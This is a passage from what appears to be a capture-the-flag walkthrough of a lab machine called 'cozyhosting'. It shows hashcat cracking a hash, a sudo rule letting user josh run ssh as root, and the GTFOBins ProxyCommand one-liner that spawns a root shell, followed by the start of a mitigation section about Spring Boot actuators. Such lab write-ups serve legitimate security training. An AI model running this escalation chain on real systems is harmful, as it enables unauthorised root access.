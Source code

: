 ```terminal
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 1536/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1023-1024
Candidate.Engine.: Device Generator
Candidates.#1....: clover -> dangerous
```

We managed to crack `admin`'s hash and found the password. Let's use to switch to user `josh`.

### josh -> root

Let's check our privileges as `josh`

```terminal
josh@cozyhosting:/tmp/sirius$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

We can run ssh as root.

A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) tells us what command to run in order to become root

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Let's run it

```terminal
josh@cozyhosting:/tmp/sirius$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# bash
root@cozyhosting:/tmp/sirius# id
uid=0(root) gid=0(root) groups=0(root)
root@cozyhosting:/tmp/sirius# 
```

## **Prevention and Mitigation**

### Actuator

Spring boot actuators are debug endpoints for the `Spring Boot` framework so they should not be accessible without authentication.
